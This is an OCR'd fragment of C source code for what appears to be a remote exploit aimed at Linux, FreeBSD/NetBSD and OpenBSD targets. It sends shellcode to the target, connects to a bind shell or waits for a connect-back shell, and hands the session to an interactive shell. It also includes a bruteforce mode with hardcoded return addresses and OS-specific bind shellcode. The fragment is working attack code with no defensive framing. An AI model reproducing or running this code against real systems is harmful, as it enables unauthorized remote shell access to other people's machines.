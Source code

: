                     if (verbose == 1) fprintf(stdout, "+ Session enstablished\n");
                    sleep(5);
                    if (targets[type - 1].os_type != 2) {
                            if (exploit_normal(sock, ret, shellcode) < 0) {
                                    fprintf(stderr, "+ Failed.\n");
                                    close(sock);
                            }
                    } else {
                            if (exploit_openbsd32(sock, ret, shellcode) < 0) {
                                    fprintf(stderr, "+ Failed.\n");
                                    close(sock);
                            }
                    }

                    sleep(2);

                    if (connectback == 0) {
                            if(connect(sock2, (struct sockaddr *)&addr2, sizeof(addr2)) == -1) {
                                    fprintf(stderr, "+ Exploit failed, try -b to bruteforce.\n");

                                    return -1;
                            }

                            fprintf(stdout, "--------------------------------------------------------------\n");

                            shell(sock2);
                            close(sock);
                            close(sock2);
                    } else {
                            fprintf(stdout, "+ Done...\n");
                            close(sock2);
                            close(sock);
                    }
                    return 0;
            }

            signal(SIGPIPE, SIG_IGN);
            signal(SIGUSR1, handler);

            switch(brute) {
                    case 0:
                            if (ret == 0) ret = 0xc0000000;
                            shellcode = linux_bindcode;
                            fprintf(stdout, "+ Bruteforce mode. (Linux)\n");
                            break;
                    case 1:
                            if (ret == 0) ret = 0xbfc00000;
                            shellcode = bsd_bindcode;
                            fprintf(stdout, "+ Bruteforce mode. (FreeBSD / NetBSD)\n");
                            break;
                    case 2:
                            if (ret == 0) ret = 0xdfc00000;
                            shellcode = bsd_bindcode;
                            fprintf(stdout, "+ Bruteforce mode. (OpenBSD 3.1 and prior)\n");
                            break;
                    case 3:
                            if (ret == 0) ret = 0x00170000;
                            shellcode = bsd_bindcode;
                            fprintf(stdout, "+ Bruteforce mode. (OpenBSD 3.2 - non-exec stack)\n");
                            break;
                    }
